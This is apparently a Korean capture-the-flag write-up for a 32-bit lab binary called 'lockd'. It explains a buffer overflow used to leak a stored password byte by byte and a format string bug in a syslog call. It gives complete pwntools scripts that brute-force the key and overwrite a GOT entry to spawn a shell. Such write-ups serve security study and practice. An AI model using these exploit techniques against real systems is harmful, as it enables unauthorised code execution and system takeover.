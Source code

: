 # 문제
***

lockd 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
lockd: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=784b63a128e6fe76512ae058e30be767450c8e7a, stripped
```

바이너리 코드

__sub_8048A7D()__
```
int sub_8048A7D()
{
...
  v7 = __readgsdword(0x14u);
  stream = fopen("password", "rb");
  fread(&ptr, 1u, 0x10u, stream);
  fclose(stream);
  dword_804A0A4 = *(_DWORD *)&ptr;
  dword_804A0A8 = v4;
  dword_804A0AC = v5;
  dword_804A0B0 = v6;
  printf("Input master key > ");
  read(0, &buf, 0x28u);
  return memcmp(&ptr, &buf, 0x10u);
}
```

__sub_8048A7D()__의 read 함수에서 buffer overflow 취약점이 존재한다. 그리고 bof를 통해서 ptr 영역에 overwrite함으로써 password를 알 수 있다. 방법은 다음과 같다.

(X는 내가 넣은 특정한 문자를 의미하고 ?는 0x00에서 0xff 사이의 임의의 값을 의미한다. 그리고 Y는 fread를 통해 ptr에 읽어온 password의 값이다.)

1. read함수를 통해서 buf의 앞 16바이트에 XXXX XXXX XXXX XXX?를 쓰고 bof를 통해서 ptr을 XXXX XXXX XXXX XXXY와 같이 구성한다.
?에 0x00부터 0xff까지 넣어보면서 memcmp의 return 값이 0일 때를 찾는다. 이를 통해서 Y 값을 알 수 있다.
2. 동일한 방식으로 buf의 앞 16바이트에 XXXX XXXX XXXX XX?Y를 쓰고 ptr을 XXXX XXXX XXXX XXYY와 같이 구성하면 뒤에서 두 번째에 있는 Y값을 알아낼 수 있다.
3. 이 방식을 반복함으로써 password를 알 수 있다.

__sub_804897A()__
```
signed int sub_804897A()
{
  printf("Input master key > ");
  read(0, fmt, 0x14u);
  if ( memcmp(&dword_804A0A4, fmt, 0x10u) )
    return -1;
  sprintf(fmt, "./lock UNLOCK %d %d", dword_804A4C0, dword_804A0A0);
  system(fmt);
  printf("Your name > ");
  read(0, &unk_804A2C0, 0x190u);
  sprintf(fmt, "UNLOCK %d-%d by %s", dword_804A4C0, dword_804A0A0, &unk_804A2C0);
  syslog(0xD, fmt);
  return 0;
}
```

```void syslog(int priority, const char *format, ...);``` 
syslog 함수는 두 번쨰 인자로 const char *format을 받는다. 그런데 __sub_804897A()__, __sub_8048877()__ 에서 syslog 함수를 ```syslog(0xD, fmt);``` 와 같이 사용하기 때문에 fsb 취약점이 존재한다. 

## exploit 방법
1.  __sub_8048A7D()__에 존재하는 취약점을 이용해서 password를 알아낸다. (이를 통해서 __sub_804897A()__의 if문을 통과할 수 있다.)
2. fsb를 이용해서 __sub_804897A()__의 sfp에 sprintf의 got값을 넣는다. (앞의 read에서 fmt에 20바이트를 넣기 때문에 password 뒤에 ""\x0a"*2 + "sh" (뒤에 null 존재)을 넣고 바로  system을 호출하면 쉘을 딸 수 있다. 그런데 sprintf에서 17바이트를 출력한 후에 \x00을 넣어버려서 ```system("sh")```가 호출되지 않는다. "\x0a"+"sh" 앞에 null이 들어가는 것을 막기 위해서 sprintf 대신 printf를 호출하게 하려고 한다.)
3. fsb를 이용해서 sprintf_got에 printf_plt 주소를 덮어쓴다.
4. fmt를 password + "\x0a" + "sh" + "\x00" 으로 구성하면 system(fmt)에서 쉘을 딸 수 있다.

# 풀이
***

__leak_pw.py__
```
#!/usr/bin/python

from pwn import *

file_path="/home/lockd/lockd"

def sd_key(p,key):
	p.recvuntil("floor > ")
        p.sendline("1")
        p.recvuntil("number > ")
        p.sendline("1")
        p.recvuntil("key > ")
        p.send(key)
	p.recv()
	p.close()

masterkey="A"*16
masterkey=list(masterkey)

for i in range(16):
	for j in range(0x100):
		dummy="A"*4
		key="A"*(15-i)
		masterkey[15-i]=p32(j)[0]

		try:
			p=process(file_path)
			sd_key(p,''.join(masterkey)+dummy+key)
		except:
			p.close()
		else:
			break

print ''.join(masterkey)
```

__exploit.py__
```
#!/usr/bin/python

from pwn import *

def sel_2(pay):
	p.recvuntil("> ")
	p.sendline("2")
	p.recvuntil("key > ")
	p.send(password+"\x0a"+"sh"+"\x00")
	p.recvuntil("name > ")
	p.send(pay)

password="c39f30e348c07297"

file_path="/home/lockd/lockd"
p=process(file_path)

p.recvuntil("floor > ")
p.sendline("1")
p.recvuntil("number > ")
p.sendline("1")
p.recvuntil("key > ")
p.send(password)

sprintf_got=0x804a03c
printf_plt=0x8048570

name="%"+str(sprintf_got-14)+"d"+"%9$n"
sel_2(name)

name2="%"+str(printf_plt-14)+"d"+"%21$n"
sel_2(name2)

p.recvuntil("> ")
p.sendline("2")
p.recvuntil("key > ")
p.send(password+"\x0a"+"sh"+"\x00")

p.interactive()
```

# 알게 된 것
***
1. gdb에서 디버깅 하다가 자식 프로세스 생기면 (여기서는 syslog에 의해서 생김) 동작이 멈춰버리니까 set follow-fork parent (child)를 꼭 해주자.
2. ```int printf ( const char * format, ... );```나 ```void syslog(int priority, const char *format, ...);``` 처럼 인자로 format 지정 문자열이 존재할 때 ```printf(fsb);```, ```syslog(13,fsb);```와 같이 구성하면 format string bug가 존재한다.
(format 지정 문자열 뒤에 인자가 없는 경우, or 서식 문자보다 뒤에 있는 인자의 수가 적은 )
3. ```void syslog(int priority, const char * format);```


   syslog 함수는 syslogd 데몬에게 메세지를 전송한다. (시스템에서 로그 메세지를 처리하기 위해서 제공하는 표준 인터페이스)
   
   syslogd 데몬은 받은 메세지를 /etc/syslog.conf에 설정된 규칙에 따라서 파일에 기록, 화면에 출력, 또는 다른 호스트에 있는 또다른 syslogd 데몬에게 포워딩한다.

   priority는 priority (메세지의 우선순위)와 facility (메세지를 발생시킨 프로그램의 종류 대한 flag)의 OR 연산을 통해 만들어짐
 

4. (password를 알아내는 방법과 같은) 다양한 방법을 생각 해보자???


